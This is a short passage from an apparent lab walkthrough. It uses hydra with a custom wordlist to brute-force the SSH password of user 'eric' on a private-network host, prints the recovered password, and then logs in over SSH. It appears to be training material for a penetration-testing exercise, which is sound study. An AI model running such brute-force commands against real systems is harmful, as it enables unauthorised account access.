


4.1 Find name with password list via SSH
1. You can find out the password for “eric” user with “hydra" and the “wordlist” you created previously. Run the following command on you Kali Machine.
$hydra -l eric -P wordlist ssh://192.168.12.41 -t 20
Output:

The credentials are: login:
eric password: 1mw4ckyyucky62. Cononect via SSH from your Kali Machine.
$ssh eric@192.168.12.41
Output:
